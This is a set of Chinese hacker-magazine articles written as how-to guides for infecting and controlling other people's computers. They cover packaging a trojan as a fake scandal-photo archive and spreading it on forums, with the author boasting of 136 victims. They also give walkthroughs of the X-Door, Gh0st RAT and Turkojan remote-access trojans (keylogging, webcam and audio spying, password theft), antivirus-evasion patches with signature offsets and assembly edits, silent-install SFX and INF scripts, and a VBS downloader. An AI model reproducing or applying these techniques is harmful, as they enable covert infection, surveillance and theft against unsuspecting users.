从网上随便找几张跟“艳照门”有关的图片放到一个文件夹里，然后再配置好你的木马，最好是免杀的（关于木马的配置与免杀不是本文的重点，如果你还不会可以看一下 X 档案以前的相关文章），我用的木马是最近刚出的 pcshare 黑客 X 档案版。


图1

友情专版，生成的服务端可以直接过最新的瑞星（080213），包括主动防御。比如我把图片和生成的 pcshare 服务端放到了一个名为“艳照门最新照片”的文件夹下，按 CTRL+A 全选文件夹下的所有文件，点右键，添加到“艳照门最新照片.rar”，然后双击刚生成的艳照门最新照片.rar，点击“制作自解压文件”，如图1。

在新出来的窗口中点“高级自解压选项”，就会弹出如图2所示的窗口……如图3。再点两次确定按钮就会生成一个名为“艳照门最新照片.exe”的自解压文件，但仔细一看，它的文件图标跟压缩文件的有点不一样，如图4。


下面我来给它改一下文件的图标。先用万能图标截取器把普通压缩文件的图标提取出来，然后使用 Restorator 2006 打开艳照门最新照片.exe，在“图标”中找到原来的图标文件，右键导入，选择刚才截取的图标，保存到磁盘。

这样就生成了一个含有木马的自解压文件，它的文件图标跟普通压缩文件一样，双击后会运行木马，解压出来的图片用于迷惑用户……由于 XP 系统在默认情况下不显示文件扩展名，整个过程几乎跟点击普通压缩文件一样。


#### 二、传播木马

带木马的自解压文件做好了，下面就是怎样让别人运行。作者描述了申请免费空间、上传“艳照门最新照片.exe”、记录 URL，并在贴吧与空间日志中发布“点此下载”链接，引导用户点击下载，如图6、图7。


马上刷新，不到 10 秒钟，已经有人浏览了；再看 pcshare，已经来了若干只肉鸡，如图8、图9。


## 牧马记

看来是被吧主删除了。咱再重新发，就这样我发帖，吧主删帖，我再发帖……

过了不到一小时，那篇日志的访问量已经达到了 2576，上线的肉鸡也已经达到了 136 只。看着上线肉鸡数快速上涨的感觉真爽啊 ^_^。

看到抓鸡成功后，我就把肉鸡集体放生了（做只肉鸡不容易啊）。当你看到文章的时候，也许“艳照门”的热度已经过去，再用“艳照门”抓鸡已经没有那么快了，但你可以稍微变通一下，看什么最热门，你就去用什么抓鸡，相信肉鸡成群一定不只是梦想。

> （本文所涉及到的 pcshare 黑客 X 档案友情专版和 Restorator 2006 已收录到光盘中）


### 三无驱动版木马 X-Door

痛并快乐着

常言说得好，一年之计在于春。新春当然要有新的计划和目标，对于我们这些木马爱好者来说，玩新的木马就是我们当前最大的目标。哈哈，今天我就为大家推荐一款全新的国产木马，它的名称就是 X-Door。它不但继承了大量优秀木马的特点，还有很多自身的特色功能，下面我们就来详细地了解了解 X-Door。

#### 一、配置操作

首先我们还是来配置一个 X-Door 的服务端程序，运行客户端后点击工具栏中的“生成客户端”按钮。X-Door 可以生成 DLL 和 EXE 两种形式的服务端。DLL 服务端必须通过调用 rundll32.exe、手动执行安装命令才可以实现安装，因此相对来说较为麻烦。而 EXE 服务端则需要在生成时设定好要安装的方式，然后就可以进行直接安装操作。

首先在“固定的控制端地址和端口”选项中，设置服务端程序连接的地址和端口，程序支持 IP 地址和域名两种连接方式。接着在“客户端其他设置”的“客户端标识”里面，设置用于区别服务端连接使用的标识。而“文件时间”选项可以直接设定服务端文件的生成时间和最后访问时间。另外再选中“关闭输出安装记录到文件”、“使用控制端当前连接密码为客户端添加密码验证”、“安装前，尝试 Ring3 恢复系统的原始 SSDT 表”等选项。

前面已经提到 X-Door 支持两种形式的服务端，其实 EXE 服务端最终也是通过释放 DLL 服务端、代替手工命令来执行安装命令从而实现安装。生成的 EXE 文件名可根据需要指定，如希望生成的 EXE 自动拷贝到系统目录运行并安装，生成时直接填入所希望生成的文件名并直接运行即可。配置完成后点击“确定”按钮，就可以创建所需要的服务端文件。


首先通过双击上线主机的信息，就可以打开“命令与征服”命令。新版本的该功能不再和 NC 进行兼容，因此只提供了基本的 CMD 操作以及补充的一些有用的命令，但是相对于其它木马的类似功能还是很强大的，如图2。比如通过 `skill [pname|pid]` 可以结束进程，该命令支持 PID 和进程名的操作。另外该功能每次会话的数据都进行了变形加密，而且每次会话的变形加密密钥采用随机协商处理，这样使得每次的数据内容都不尽相同。


#### 二、控制操作

为了能更好地进行控制操作，现在点击工具栏中的“参数设置”，对 X-Door 进行全局设置。其中包括监听端口、连接个数、监控色深、刷新频率等。设置完成后就可以运行服务端程序，当服务端连接成功后即可开始进行测试操作。

远程桌面的查看和控制。其中标题栏分别显示了当前的屏幕监控、所使用的设置以及所计算的压缩比和 Fps 等结果。当鼠标移动到窗口上方的时候，隐藏的控制工具栏就会立即显示出。比如点击“控制鼠标键盘”命令，就可以直接通过鼠标键盘进行远程桌面的控制。“保存图片”可以将捕捉的图片保存到本地的磁盘里面，如图3。虽然可以通过调节监控屏幕的色深等，但是我发现捕捉的屏幕虽然较为清晰，但是屏幕的颜色还是非常不理想。


图4


图3


图5

现在再点击工具栏中的“文件管理”，该功能模仿了 Windows 系统的资源管理器，通过下方状态列表可以显示当前操作情况和结果。通过不同的图标表示了不同的驱动器属性，包括总共享空间大小和剩余空间大小等基本信息。通过鼠标右键中的命令，可以提供文件的删除、执行、下载、上传，以及文件和文件夹的压缩等功能。如果这次文件传输没有完成的话，当下次文件管理连接上后，会发现未完成的文件下载进度，如图4。X-Door 将根据系统参数的设置，决定是否提醒用户恢复下载的进度。


图6

除了对远程桌面进行监控以外，还可以通过“视频监视”和“音频监听”命令进行其他信息的监控设置。比如通过“视频监视”可以打开安装到远程系统中的摄像头、电视卡、视频采集卡等视频源。木马可以根据实际状况来调整并显示实际帧率，当然也可手动调整。捕捉的数据既可以保存为 AVI 文件，也可以保存为 BMP 图片文件。并且该功能支持 Microsoft MPEG4 和 DivX MPEG4 编码，可以大大降低数据的传输量，从而降低网络带宽需求并提高效率。如果远程系统没有安装编码器，可以到 X-Door 木马的官方网站（www.xdoors.net）下载 mpeg4.exe 程序后，利用“文件管理”上传到远程主机并直接执行，而且整个安装过程是隐藏不可见的。另外通过“音频监听”可以采集到远程系统麦克风所采集的音频信息。而该功能使用了 G729 音频压缩，这样是为了降低带宽需求，如图5。


图7

现在我们再来看看“注册表管理”、“进程管理”和“服务管理”这三个基本的控制功能。“注册表管理”命令模拟了本地系统的注册表管理器，通过它可以对远程注册表的内容进行修改，当然也可以创建新的项目内容和键值。“进程管理”则是模仿了 Windows 任务管理器，通过它实现对远程系统进程的管理……“服务管理”也是模仿 Windows 系统服务管理器……此外木马还带有大量功能插件，包括键盘记录、远程代理、分布式攻击等。

#### 三、小结

到此为止，X-Door 已经介绍完成了。从上面的介绍我们可以看出，X-Door 属于驱动级木马程序……（本文所涉及到的 X-DOOR 已收录到光盘中）

## 国产木马新选择—Gh0st RAT

自从灰鸽子木马停止开发以后，国产木马好像就变成了群龙无首……最近无意间发现了一款由红狼安全小组发布的远程控制软件——Gh0st RAT，经测试其功能非常不错。

#### 一、配置服务端

首先运行最新版的 Gh0st RAT 客户端来配置一个服务端程序进行使用……支持 HTTP 和 DNS 两种上线方式……在“主机/域名”和“端口”中设置连接参数，复制“上线字串”。


接着点击客户端中的“Build”标签，在“域名上线字串”中粘贴这段字符串即可，最后点击“生成服务端”按钮即可完成。

#### 二、服务端操作

现在在虚拟机中运行生成的服务端……连接成功后可在控制端进行文件管理、屏幕监视、键盘记录、远程终端、系统管理等操作。


首先来看“文件管理”命令，可对本地和远程文件进行管理，支持新建、删除、重命名、排序等；文件传输支持断点续传并显示进度。屏幕监视可查看远程桌面，视频监控可调用远端摄像头；“键盘记录”用于记录键盘操作。

## 骇马记

Gh0st RAT 的键盘记录功能除了可以进行英文以及相关信息的记录以外，还可以进行中文信息内容的记录操作，如图 6。


为了更好地进行远程程序的管理，Gh0st RAT 采用了进程和窗口两种管理方式。这两个管理功能看似相重合，但实际上有的功能确实无法取代。通过“系统管理”的“进程管理”标签，可以及时地查看远程计算机中的进程，如果发现有杀毒软件或者防火墙，就可以通过“结束”命令来关闭指定的进程，从而达到保护木马服务端的目的。另外，通过“窗口管理”标签，可以对窗口进行有效的管理。


利用右键菜单中的命令，可以将记录下来的信息保存出来。而“远程终端”命令实际上就是一个简单 Shell，在这个窗口中用户可以进行终端命令的操作，这样可以更好地对远程系统进行管理操作，如图 7。

很多木马都拥有集群控制命令，Gh0st RAT 木马当然也不能例外。通过它可以同时控制多台远程系统。不过 Gh0st RAT 木马的集群控制命令却有所不同，因为它的操作都是在主界面的列表中进行。除了常见的网页打开、文件下载功能以外，还可以选择所需要的主机后通过右键命令进行操作。通过点击列表中的项目名称，就可以起到功能筛选的作用，比如点击“摄像头”后，就可以将有摄像头和没有摄像头的主机进行区分。

另外，Gh0st RAT 木马的心跳包机制可以防止意外掉线，从 svchost 系统服务启动，同时拥有远程守护线程进行防护。这样在进程被结束以后可以快速恢复，因此在清除的时候就显得非常困难。

#### 三、总结

经过简单的测试后我们发现，Gh0st RAT 木马作为一款全新的国产木马，无论是操作性还是功能性上，都已经表现得非常不错了。以后的版本如果能在现有的基础上，再对拥有的控制功能进一步加强，我想 Gh0st RAT 木马以后会越来越好的。如果大家觉得这款木马程序还不错的话，那么就赶紧下载一个来玩玩吧。

（本文所涉及到的 Gh0st RAT 已收录到光盘中）

### 上兴远控瑞星主动防御之旅

寒假总算到来了，趁时间充足给大家介绍上兴（我使用的是上兴 2007 SP3 破解版）过瑞星主动防御的一些方法。传统的特征码免杀和内存免杀在以前的杂志介绍过，就不再多说了。瑞星的主动防御主要有系统加固、应用程序访问控制、应用程序保护、程序启动控制、恶意行为检测和隐藏进程检测。导致我们免杀后的上兴无法过主动防御的原因，主要在系统加固和恶意行为检测两个模块，默认情况下这两个模块的防御级别都在中。

恶意行为检测说到底还是特征码检测，只是检测的方式有点不同。瑞星 2008 恶意行为检测我知道的有两个方面：一个会检测木马执行后生成文件的特征；另一个则会同时检测木马原文件和生成文件的特征。我们先讲下如何突破恶意行为第一个方面的检测，这个可以通过更改文件特征码来躲过。首先，我们要开启瑞星的主动防御，后将做了表面和内存免杀的上兴服务端载入 MyCCL，选择带后缀，分块数量设为 10（图……）。

## 牧马记


1）点生成后，打开 OD，依次将生成的文件插入 OD，再按那个“×”（图 2），关闭进程。若瑞星报警，则按提示删除。后点二次处理，继续定位，直到精确定位到特征码。


我再介绍一个快速定位的方法，大家可以先将生成文件 1.inf 和 1.ini 先插入 OD，然后关闭进程，看瑞星是否报警。若有，则它后面的文件一般都带特征（前面的文件可能有特征，要检测），我们直接将后面的文件删除即可，这样可以节省一些时间。若没有报，则一般前面的文件没带特征，就只检测它后面的文件即可。二次处理时，可先检测最后的一个文件，若瑞星没报，则说明不存在其它特征，其它文件就不用检测了（这里文件的排列顺序按文件名数字大小排列）。

| 项目 | 内容 |
|---|---|
| 特征码 | 0005FDAF |
| 物理地址/物理长度 | 00000001 |

使用 w32asm 载入原服务端，跳转到对应的 hex 编辑，按 Ctrl+G 输入 0005FDAF 跳转到该处。我们可以看到“正在查找错误信息”这段中文，把它替换成别的即可，我这里直接使用 00 填充掉。现在就过了恶意行为检测一个方面的检测。

再谈一下另一个方面的检测，由于要定位这个方面的特征码我不会，所以只能采取另外的方法。前面已经说过，这个方面的检测会同时检测木马原文件和生成文件的特征，只有木马原文件和生成文件都带相同特征，瑞星才报警。也就是说我们只要让其中一个不带特征，瑞星也就不会查杀了。可以将木马原文件换成一个自解压程序，让它直接把木马程序释放到安装目录。由于自解压程序已将木马压缩了，自然也就不可能存在特征。


认为服务已经成功添加了，所以得另外给它加个服务。这里我就使用 inf 文件来实现。

```ini
[Version]
Signature="$WINDOWS.NT$"
[DefaultInstall.Services]
AddService=Windows_rejoice1,,My_AddService_Name

[My_AddService_Name]
DisplayName=Windows_rejoice2
Description=上兴远程控制服务端
ServiceType=0x10
StartType=2
ErrorControl=0
ServiceBinary=%ProgramFiles%\Common Files\Microsoft Shared\MSINFO\svchost.exe
```

Windows_rejoice1 为服务名称，Windows_rejoice2 为显示名称，“上兴远程控制服务端”为描述，%ProgramFiles%\Common Files\Microsoft Shared\MSINFO\svchost.exe 为木马安装路径，也就是我们在配置服务端时的那个安装路径（图 3）。将上述代码使用记事本保存为 1.inf，将 1.inf 和服务端程序 svchost.exe（要把服务端的文件名改成配置服务端时输入的安装名）放到同一目录选定，点击右键选择添加到“ice.rar”（ice 为这里文件所在目录），然后双击打开生成的这个 rar 文件，点击工具栏上的自解压图标，在弹出的对话框中选择注释，输入如下代码（下面的注释包含自解压脚本命令）：

```ini
Path=%programFiles%\Common Files\Microsoft Shared\MSINFO\
SavePath
Setup=svchost.exe
Setup=rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %programFiles%\Common Files\Microsoft Shared\MSINFO\1.inf
Silent=1
Overwrite=2
```

Path 为释放路径，这个路径要和配置服务端时的安装路径相同。Setup 后接的是解压后运行的程序，可以多个。Silent 设置解压时不显示开始对话框，参数为 1 时完全隐藏。Overwrite 设置覆盖模式，参数为 2 时覆盖所有文件。rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %programFiles%\Common Files\Microsoft Shared\MSINFO\1.inf 为执行 inf 安装的命令。

点击确定返回，在同一个目录下就会生成一个与 rar 同名的自解压文件 ice.exe。运行下 ice.exe，已经成功逃过了瑞星主动防御（图 4）。


瑞星主动防御比较强的部分还是在系统加固方面，将防御等级调到高的话，就会监控注册表、服务和“开始”里的“启动”等可以添加开机启动的地方。而木马若不添加开机启动的话也变成一次性的了，一般的木马也就很难突破。如果大家有突破的方法，记得拿来交流哦。

（本文所涉及到的上兴 2007 SP3 破解版、MyCCL、OD、W32asm 和 1.inf 已收录到光盘中）

### 国外也有好木马——Turkojan

痞井快乐 著

国内的木马我们已经介绍好多了，今天我们就来介绍一下国外的木马，看看与国内的木马在功能上都有什么不同。我在网上找了找，结果发现了一款来自土耳其的木马 Turkojan。经过我的测试使用，感觉 Turkojan 非常不错。

#### 一、配置服务端程序

Turkojan 和其它木马程序不同，需要首先对其进行安装才可以。安装完成后运行桌面上的木马图标，首先从最左上方的语言栏中选择“english”，接着点击旁边的“editor”按钮，在弹出的窗口中进行服务端程序的设置。选择窗口中“Running mode”下的“stealth mode”，这样可以更好地进行设置操作。接着在“DNS”和“Port”中设置反弹连接的 IP 地址和端口，再勾选上“Copy server to pc”和“Autostart server”，设置木马释放文件的名称和随机启动的名称（图 1）。为了更好地进行伪装，可以设置服务端的图标以及运行后弹出的错误窗口。最后点击“save”按钮就可以成功创建相应的服务端程序了。


图 1

首先我们来看 passwords 这项，从名称中可以看出该命令用于控制远程系统中的密码信息，其中包括即时通讯工具、FTP 客户端、各种浏览器、电子邮件等。由于 Turkojan 木马是一款国外的木马程序，因此所囊括的程序都是国外常见的，比如 MSN、ICQ、Yahoo、Opera、IE 浏览器、Firefox 等。用户只需要点击需要查看的类型，就会在窗口中显示出该类型的密码信息，然后通过相关的控制命令进行保存操作。

#### 二、服务端程序控制

回到 Turkojan 的主界面，在“Port”后面输入服务端连接的端口，接着点击“start”按钮进行端口监听。现在运行刚才生成的服务端程序，很快服务端程序就成功连接客户端了，在连接列表中可以看到上线的服务端程序。选择它后再进行双击操作，就可以对其进行控制操作了（图 2）。所有的控制命令都集中在窗口左侧，下面我就对其中一些常见的控制命令进行详细介绍。


图 2

现在点击工具栏中的 accessories 命令，该命令包括了三项常见的控制命令，分别是桌面控制、视频监控和音频监控。先来看桌面控制，点击其中的 remote desktop 命令，会弹出一个远程桌面的控制窗口。单击工具栏中的第四个按钮，通过它可以调整捕捉屏幕的色彩（图 3）。接着点击第一个按钮，木马就开始进行远程屏幕的捕捉操作。经过测试后发现，Turkojan 木马的捕捉速度还是非常快的。如果用户想要进一步通过鼠标键盘进行控制，那么点击工具栏中的第二个和第三个按钮后，就可以像在自己的系统中那样进行控制操作。


图 3

点击“Webcam Streaming”命令，可以通过远程计算机中的摄像头进行图形捕捉。首先点击“get list”按钮命令查看远程系统中是否安装有视频设备，如果有的话就可以在下拉列表中选择捕捉设备。接着点击开始按钮进行图像捕捉（图 4）。通过窗口中的其它命令可以将捕捉到的信息进行保存，也可以通过调整来获取捕捉的频率和速度。另外“Audio Streaming”命令还可以对远程系统中的音频进行捕捉，并且可以针对不同的音频设备进行捕获。

接着点击工具栏中的 settings manager 命令，其中包括了剪贴板管理、窗口管理、进程管理、服务管理等多个命令。比如点击“clipboard settings”中的命令，可以查看远程系统剪贴板中的内容，并且还可以对剪贴板中的内容进行随意更改。

“explorer settings”命令就是针对浏览器的，通过它可以获得浏览器的历史记录等信息，另外还可以设置浏览器的首页，以及让远程浏览器打开某个设定的网址地址。而“application settings”则是用于进行远程窗口管理的，用户可以对这些窗口进行最大化、最小化、隐藏、关闭等操作，另外还可以对指定窗口的标题栏进行更改（图 5）。而“applications”命令则是对远程计算机系统当前的进程进行管理，如果发现不想要的进程可以通过“terminate application”按钮结束。点击“registry editor”命令后，在弹出的窗口中可以对远程计算机中的注册表进行管理，首先选择需要管理的注册表内容，然后通过右键命令即可进行新建、修改等系统修改。除此以外，settings manager 里面还包括其它的控制命令，大家可以自己进行测试操作。


在“File Manager”中，首先单击工具栏中的第一个按钮，就可以获取远程系统的磁盘信息。当然在窗口的左侧程序还列出了常见的目录，用户只需要点击相应的按钮，就可以快速进入到相应目录中。然后通过工具栏中的命令对文件进行管理，其中包括执行上传、下载、删除、运行、压缩等命令（图 7）。点击“Find Files”按钮，用户可以指定在远程系统中搜索需要的文件并进行下载。设置需要进行搜索的目录以及文件名，点击“Find Files”按钮就可以按照用户的需求进行搜索。搜索完成后点击相应文件，再点击“Download it”按钮就可以进行下载操作（图 8）。


Manage keyboard 命令主要用于对远程系统的键盘进行管理操作，其中的“keyboard settings”命令可以对键盘中常用的组合键进行锁定，从而使得肉鸡不能进行这些项目的操作；而其它两个命令就是木马里常见的键盘记录功能，通过它就可以获得远程用户的键盘记录情况，并且可以根据在线和离线进行分别记录操作。点击窗口中的“active”按钮，可以激活记录功能从而记录下用户的键盘操作信息；“Save”和“Clear”命令可以对记录内容进行保存和清除（图 6）。另外在 offline keylogger 中点击“Get logs”，可以获取到离线状态下的键盘记录信息。不过由于 Turkojan 是一款国外的木马程序，因此不能对中文这样的汉字信息进行记录。

commands 中的“remote shell”可以调用远程系统的命令提示符，从而在远程系统中执行很多命令，并且整个过程都不需要进行端口监听。木马中的 block sites 命令非常有意思，可以对设置的网络端口进行阻止操作。点击 add 按钮后，在弹出的菜单中设置需要进行阻止的端口号就可以进行阻止操作了。另外通过“get list”命令可以获取系统中已经阻止的端口信息，这样可以避免用户重复操作。在 fun manager 中，包括“fun menu”和“extra fun”两个命令，这些命令都是一些常见的恶作剧，比如隐藏桌面、任务栏、开始菜单，或者打开关闭显示器、光驱等，通过这些功能我们可以为所欲为（图 9）。


#### 三、小结

到此为止，木马 Turkojan 的主要功能就介绍得差不多了。通过介绍我们可以看到，国外的木马不仅控制能力上一点不弱，而且还有很多无聊的恶作剧功能。再比如在远程控制的时候搞搞恶作剧也是不错的选择。怎么样，如果你现在还在玩灰鸽子的话，那么就赶快试试这款来自土耳其的木马吧。

（本文所涉及到的 Turkojan 4.0 已收录到光盘中）

### 菜鸟免杀之特征码定位——multiCCL

拓花 [z.w.j]


目前的杀毒软件主要是以特征码查杀为主，依靠特征码对木马进行查杀。它的查杀程序一般为：加载病毒文件——查找特征码——查杀处理。特征码可以说是木马本身的一个代码片段，也就是木马存放自身的载体码或者 ASCII 码，被杀毒软件通过病毒分析提取。分析人员把包含特征码的木马偏移地址、内存偏移地址和相关信息写入病毒库，当查毒时会自动对文件特征码和内存特征码扫描，发现和病毒库中定义好的特征码相同时即定义为木马，然后进行查杀操作。

如果能在自己的软件中找出特征码所在，并进行适当变形，便能在一定程度上提高代码安全性。

我们定位特征码常用的工具是 MyCCL（图形界面工具），这里介绍的是 multiCCL。它是一款无 GUI 图形界面的定位器，虽然鲜为人知，但定位结果往往优于 MyCCL（图 1）。

右栏说明了命令行流程：在选定定位文件后，工具会提示选择输出目录；可选已有空目录，或在目标文件同一路径下新建 output 文件夹。随后继续按键进入新对话框，根据提示可进行保护区域、定位精度等设置（图 2、图 3、图 4）。


图 1


图 2

打开 multiCCL 后，会看到多个 EXE 文件、一个 DLL 文件、一个 TXT 文件和一个 HTM 文件。我们主要使用 4 个 EXE 文件：

- **multiCCL_f.exe** —— 文件特征码专用版
- **multiCCL_m.exe** —— 内存特征码专用版
- **multiCCL_inj.exe** —— 注入代码块内存定位专用版
- **memtest.exe** —— 用作内存定位防护或运行 exe/向目标进程注入的辅助程序

本文定位的是文件特征码，因此使用 multiCCL_f.exe。目标文件可选择 WebDAVScan.exe。

首先打开文件特征码定位器 multiCCL_f.exe，按命令行提示会弹出新对话框（图 2）以选择定位文件位置。选好后程序返回命令行并提示选择输出目录：一种是选择已建好的空目录；另一种是在目标文件同一路径下新建 output 文件夹。继续按键后会弹出新的路径选择对话框（图 3）。


图 3


图 4

## 牧马记


命令行发生了变化（图6），这便开始文件定位了。在这里，multiCCL 有两种方法可供你选择，分别是手动和自动。对于我等菜鸟来说，当然是选择自动了，所以下边我就以自动定位来讲解一下。

设置好后，点击 Test 下面的 Apply 应用即可。选择自动定位应用之后，鼠标和键盘便不能再动了，否则 multiCCL 会受到干扰而不能继续定位。随后观察 multiCCL 自动定位功能窗口，出现定位成功提示即表示文件特征码定位完成（图10）。


首先打开你所使用的杀毒软件，我以 NOD32 为例。在扫描的范围内选择我们自己建立的 output 文件夹，其他磁盘、文件一个也不选择（图7）。然后对操作选项进行设置，结果是查到木马文件时立即进行删除（图8）。


```text
[Temp]
TmpFileName=...
tmpCodz=...
[cmdratorCodz]
methodoz=1
OK=1
CharsatorTotal=1
Codz1=H_00002DDF_00002DFF_00000021_00002A44
...
TotalNumber=32
outputPath=...\output\
outfile2=...
recode2=H_00002DDF_...
...
```

对杀毒软件设置好以后，便要对 multiCCL 进行简单设置了。先选择 Option 选项，在弹出的对话框内进行具体设置：将鼠标箭头拖到杀毒软件的“扫描并清除”按钮上，再将 CMD 按钮拖到 multiCCL 的命令行处，并设置滚动条时间。这里我选择 10 秒。

设置完成后点击 Test 按钮看是否能正常运行。如果杀毒软件可正常查出木马并将其删除，说明设置成功。通过命令行内容可查看定位结果，其中 `Codz1=H_00002DDF_00002DFF_00000021_00002A44` 为 WebDAVScan.exe 的特征码（图11）。

怎么样？通过我的讲解你应该也能掌握木马特征码定位的技巧了吧。multiCCL 定位器只是众多定位精灵的一种，优点是定位方式精确；不足是用户定位特征所需时间较长。但瑕不掩瑜，这些功能已足够实用。

## 叉子叉未锄绝杀

#### ——免杀 RemoteABC 过瑞星卡巴

JKS-浅色约定（朱俊豪）

快中考了，好不容易才有几小时上网轻松一下，刚登录 QQ 就有一 MM 来找我，要我帮她制作 RemoteABC 的免杀。既然是 MM 开口，没理由拒绝她吧，而且也没什么特别的要求，能过瑞星和卡巴就 OK。就这样，免杀 RemoteABC 之旅开始了……

#### 一、RemoteABC 的配置方法

唉，穷人买不起正版的 RemoteABC，于是找到论坛里下载了一个 RemoteABC 的服务端和配置信息生成器。打开 RemoteABC 生成器，填写配置信息。建议选择“专业会员”，因为没有功能限制，用户名够 5 位数……其余的配置跟灰鸽子差不多，就不多说了（图1）。填写好后，点击“生成服务端配置信息”，就会生成一个配置信息文件，保存为 yueding.exe。


使用 Restorator 打开服务端，找到“CONROM2”目录下的资源“TFROM2”，然后把 yueding.exe 文件导入保存（图2），经测试能够正常上线。


#### 二、表面、内存免杀

首先制作瑞星的免杀，使用 mycc1 对 RemoteABC 服务端定位表面特征码如下：

```text
【特征】0006AACC-00000002
【特征】0006AC08-00000002
【特征】0006ADCE-00000002
【特征】00071420-00000002
```

打开 OC 偏移量转换器，把 0006AACC 转换成内存地址 0046B6CC，使用 OD 载入程序，按 Ctrl+G 跳到 0046B6CC，得到一段代码。把 0046B6CC 的 `74 0E` 修改为 `je short 0046B6DD`，并在附近比较接近的指令处继续调整。

```asm
0046B6DD  6A 20                push 20
0046B6DF  8B45F8               mov eax,dword ptr [ebp-8]
0046B6E2  50                   push eax
0046B6E3  8B45FC               mov eax,dword ptr [ebp-4]
0046B6E6  8B80D0000000         mov eax,dword ptr [eax+D0]
```

顿时，我想到如果把 0046B6DF 和 0046B6E3 地址的代码加在一起能不能通过呢？把两条 mov 合并成 `mov eax,dword ptr [ebp-12]`，修改后的代码如下：

```asm
0046B6DD  90                   nop
0046B6DE  90                   nop
0046B6DF  90                   nop
0046B6E0  6A20                 push 20
0046B6E2  50                   push eax
0046B6E3  8B45EC               mov eax,dword ptr [ebp-12]
0046B6E6  8B80D0000000         mov eax,dword ptr [eax+D0]
```

把 0046B6DF 地址 nop 掉，然后把 0046B6DD 地址的代码 `push 20` 写到 0046B6E0 地址上。回到特征码 0046B6CC 地址，把 `je 0046B6DD` 修改成 `je 0046B6E0`，保存为 1.exe，继续定位并修改。

```asm
0046B806  85C0                 test eax,eax
0046B808  740E                 je short 0046B818
0046B80A  8BC8                 mov ecx,eax
0046B80C  BA64846000           mov edx,00468464
0046B811  8BC3                 mov eax,ebx
```

我们把 0046B808 和 0046B80A 地址 nop 掉，然后在 0046B809 重写 `je short 0046B818`，修改后代码如下：

```asm
0046B806  85C0                 test eax,eax
0046B808  90                   nop
0046B809  740D                 je short 0046B818
0046B80B  90                   nop
0046B80C  BA64846000           mov edx,00468464
```

将其保存为 2.exe，继续定位第三处特征码 0046B9CE，得到代码 `je short 0046B9DD`，周围代码如下：

```asm
0046B9C6  E8 3949FFFF          call 00460304
0046B9CB  85C0                 test eax,eax
0046B9CD  740E                 je short 0046B9DD
0046B9CF  8BC8                 mov ecx,eax
```

这个特征码我们使用跳转法进行修改，在下面找到一些 0 区域，找到 0046BDCD 地址，在 0046B9C6 到 0046B9CD 使用 nop 填充。填充后在 0046B9C6 写上 `jmp 0046BDCD` 跳转到 0046BDCD，再在代码末尾加上 `jmp 0046B9CF`。

```asm
0046B0CD  E8 3245FFFF          call 00460304
0046B0D2  85C0                 test eax,eax
0046B0D4  0F84 03FCFFFF        je 0046B8DD
0046B0DA  E9 F0FBFFFF          jmp 0046B9CF
```

将其保存为 3.exe。随后用 OD 载入并在对应地址修改跳转条件（`jle short 0047205C` 改为 `jbe short 0047205C`），保存为 4.exe。接着开始修改内存特征码，使用 mycc1+OD 定位到如下位置：

```text
[特征] 0007BAEF_00000003
[特征] 0007BA0F_00000003
```

使用 C32Asm 载入 4.exe 修改上述两处特征码（位于函数输入表附近），再用 LordPE 调整函数指针即可。文中随后继续说明卡巴相关定位：`[特征] 000722C0_00000002`，并给出附近特征码片段：

```asm
00472EBB  56            push esi
00472EBC  E8 FF40F9FF   call 00406FC0
00472EC1  85C0          test eax,eax
00472EC3  74 08         je short 00472ECD
```

这次特征码改用跳转法，定位到 00473A2D 附近的 0 区域进行处理，方法与前述类似。

#### 三、免杀 sys 文件

首先介绍 sys 导出工具的使用。命令语法类似：`GetAbcTmp.exe - 或 + 服务端文件名 TMP文件名`。其中“-”表示导出 TMP 文件，“+”表示导入 TMP 文件，服务端文件与本程序位于同一目录。

将 SYS 文件重命名为 my.sys，定位瑞星特征码：`[特征] 00001D4E_00000002`，在 C32Asm 中修改相关字符串大小写并保存；随后定位卡巴特征码：`[特征] 000018A0_00000002`。


使用 C32Asm 载入 sys 文件后，按图示检查特征码。文中提到尝试修改无果，后采用 PEditor 的“校验和”功能进行处理。


在弹出的窗口中点击“修正”，这样即可完成修正（见图6），并使瑞星与卡巴 7.0 的主动开启动作成功（见图7、图8）。


花费一个下午最终完成 RemoteABC 的免杀处理。文末说明本文涉及到的 RemoteABC、sys 导出工具、OD、C32Asm、Restorator 和 PEditor 等工具可在相关渠道获取。

### 什么是跳板

> 一个具有辅助作用的“肉鸡”（受控主机）可被用作间接工具。攻击者入侵目标时，所有操作命令先到跳板机，再由跳板机转发到目标主机。典型作用是隐藏真实 IP：目标日志中记录的是跳板机地址而非攻击者真实地址，从而提高溯源难度。文中还提到可通过代理服务实现类似跳板效果。

### 用 VBS 制作自解压免杀下载者

目前越来越多的下载者都加入了更多的功能，比如感染和弱口令扫描等。虽然一时间变得貌似“无敌”，但不久就要面临被杀的命运，而且穿透主动防御也成为问题。我们来试想一下，如果使用 InternetExplorer.Application 组件，再使用 IE 下载并打开，不就解决问题了吗？

但是这个组件不能直接下载保存文件，IE 是把文件下载到本地缓存的，我们可以先让它把文件下载到缓存，然后再从缓存找到并复制到我们需要保存的位置。

这样的 VBS 代码在网上早就有了，多数是在网马里，但很少有人用到下载者里。本文把代码简化为一个自解压文件：`t.vbs`、`t.bat` 和 `y.vbs`。其中 `t.vbs` 为主要下载脚本，`t.bat` 用来执行，`y.vbs` 用于隐藏批处理窗口并在最后清理。


为了让 IE 把 exe 文件下载到本地缓存，需要一个网页把 exe 包进去。例如页面中加入：`<script src=an.exe></script>`，这样 IE 访问页面时会把 `an.exe` 当作脚本保存到缓存。

```html
<script src=an.exe></script>
```

其中 `an.exe` 就是伪装木马。`an.exe` 和 `1.htm` 放在同一目录。测试时先把 `t.vbs` 拷贝到 C 盘，再在 CMD 中执行：`CScript t.vbs http://192.168.139.1:8080/1.htm an.exe tmd.exe`。


查看 C 盘后可见下载的 `an.exe`，并重命名为 `tmd.exe`。随后可将 `t.vbs`、`t.bat`、`y.vbs` 打包为自解压，设置解压前运行 `y.vbs`，即可一次完成全部步骤。


制作自解压文件时，解压路径建议写传统 `%systemroot%\temp`，也可随意写一个目录。文中测试将其释放到 `C:\Program Files\Internet Explorer\` 目录，仅修改这一处即可规避部分杀软监控。

### 送给小菜的灰熊猫远程程序

随着时间推移，灰鸽子木马逐渐淡出视线，但文中介绍的“灰熊猫”远控集成了多款主流远控软件的特点。下面通过实际测试感受其能力。

#### 一、配置木马程序

点击工具栏“配置服务端”生成服务端程序。支持三种上线方式：DNS、IP 地址、网页地址。DNS/IP 方式需填写地址与端口；网页方式不需要填写 `http://` 前缀。


